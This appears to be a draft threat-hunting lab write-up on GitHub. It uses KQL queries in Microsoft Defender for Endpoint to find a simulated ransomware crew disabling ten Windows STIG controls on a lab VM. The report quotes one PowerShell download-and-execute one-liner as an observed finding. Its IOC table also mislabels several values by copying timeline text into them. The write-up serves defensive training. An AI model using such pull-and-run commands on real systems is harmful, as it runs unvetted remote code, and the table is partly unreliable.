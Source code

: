 ![image](https://github.com/user-attachments/assets/aae438d1-b51f-4691-b49b-e45fa8b044ad)

# Threat Hunt Report: Crimson Mongoose Ransomware Pre-Staging (((DRAFT))) 
- [Scenario Creation](./threat-hunting-scenario-ransomware-pre-staging-activity-event-creation.md)

---

## Platforms and Languages Leveraged
- Windows 10 Virtual Machine (Microsoft Azure)
- EDR Platform: **Microsoft Defender for Endpoint** (Advanced Hunting)
- Kusto Query Language (KQL)
- PowerShell

---

## Scenario

**Alert source:** Regional CERT flash warning of a new ransomware crew, *Crimson Mongoose*.

**Key intel:** In every confirmed intrusion the actors quickly flip **exactly ten Windows 10 STIG controls** that kill logging (PowerShell, audit), weaken UAC, and enable insecure remote protocols (SMB signing, WinRM HTTP, disable FIPS).  
They then lurk ≤ 24 h before detonating an encryptor.

**Goal:** Detect all ten STIG flips on the single lab VM and escalate **before** the 24-hour fuse expires.

### High-Level IOC Discovery Plan

| Table | IOC Focus |
|-------|-----------|
| `DeviceRegistryEvents` | Any of the ten registry paths/values set to non-compliant data. |
| `DeviceProcessEvents` | `reg.exe`, `Set-ItemProperty`, or `auditpol.exe` commands that performed the flips. |
| `DeviceNetworkEvents` | Unsigned SMB or WinRM HTTP (port 5985) traffic that follows the mis-configs. |

---

## Steps Taken

### 1. Checked `DeviceRegistryEvents` for STIG value changes

Simple sweep for any key containing the PowerShell, WinRM, SMB, FIPS, or UAC paths with bad values (`0` or `1` depending on control).  
**Query used:**

```kql
DeviceRegistryEvents
| where Timestamp > ago(24h)
| where ActionType == "RegistryValueSet"  
| where RegistryKey has_any ([...])
| project Timestamp, DeviceName, RegistryKey, RegistryValueName, 
         RegistryValueData, InitiatingProcessAccountName,  
         InitiatingProcessFileName
| order by Timestamp desc
```
Findings: All ten non-compliant values appeared between 2025-06-17 18:03–18:05 UTC.

##

### 2. Checked `DeviceProcessEvents` for who made the changes
Focused on commands containing reg add, Set-ItemProperty, or auditpol.
Query:

```kql
DeviceProcessEvents
| where Timestamp between (datetime(2025-06-17T18:00Z) .. datetime(2025-06-17T18:10Z))
| where ProcessCommandLine has_any ("reg add","Set-ItemProperty","auditpol")
| project Timestamp, FileName, ProcessCommandLine, InitiatingProcessAccountUpn
| order by Timestamp desc
```

Findings:
Process owner corp\backupsvc executed one-liner PowerShell:
```
powershell.exe -ep Bypass -NoProfile -c "iwr https://raw.githubusercontent.../stig-pre-staging-iocs.ps1 | iex"
```

This matches attacker TTP: pull-and-run script from GitHub, window hidden.

##

### 3. Searched `DeviceNetworkEvents` for supporting traffic
Hunted for unsigned SMB and WinRM HTTP (5985):

```kql
DeviceNetworkEvents
| where Timestamp > datetime(2025-06-17T18:05Z)
| where (RemotePort == 5985 and Protocol == "Tcp")  
   or (LocalPort == 445 and Protocol == "Tcp" and AdditionalFields contains "SmbIsSigned")
| project Timestamp, RemoteIP, RemotePort, InitiatingProcessFileName
| order by Timestamp desc
```

### 4. Validation - Confirmed All 10 STIG Controls Modified
Validated that all 10 controls were modified by same account:
```kql
DeviceRegistryEvents
| where Timestamp between (datetime(2025-06-17T18:00Z) .. datetime(2025-06-17T18:10Z))
| where ActionType == "RegistryValueSet"
| where RegistryKey has_any ([list of 10 specific paths])
| summarize 
    ModifiedControls = dcount(RegistryKey),
    ControlsList = make_set(RegistryKey),
    UniqueAccounts = dcount(InitiatingProcessAccountName)
  by DeviceName
| where ModifiedControls == 10
```
Findings: Confirmed all 10 STIG controls were modified by single account (corp\backupsvc) within 2-minute window.

---

### Chronological Event Timeline

| Time (UTC) | Event |
|-------|-----------|
|18:03:12|powershell.exe (hidden) downloaded and executed stig-pre-staging-iocs.ps1.|
|18:03:14–18:05:09|All ten registry values flipped to non-compliant (DeviceRegistryEvents).|
|18:05:22|First WinRM HTTP connection to 10.0.0.15:5985 by powershell.exe.|

| IOC (Type) | Value | Confidence | MITRE ATT&CK
|-------|-----------|-------|-----------|
| Compromised Account | powershell.exe (hidden) downloaded and executed stig-pre-staging-iocs.ps1. | High | T1078
| Malicious Process | All ten registry values flipped to non-compliant (DeviceRegistryEvents). | High | T1059.001
| C2 Server | First WinRM HTTP connection to 10.0.0.15:5985 by powershell.exe. | Medium | T1021.006
| Malicious Script | stig-pre-staging-iocs.ps1 | High | T1203
| Registry Modifications | 10 STIG controls disabled | High | T1112

---

## Summary
The VM showed the full Crimson Mongoose STIG footprint: ten critical controls disabled by account corp\backupsvc via a single remote-downloaded PowerShell command, followed by WinRM traffic.
This matches pre-staging behavior; ransomware detonation would likely follow within the next 24 hours.

---

### Response Taken
Immediate Actions:

- Isolated device via MDE
- Disabled corp\backupsvc account
- Initiated enterprise-wide hunt for similar activity

---
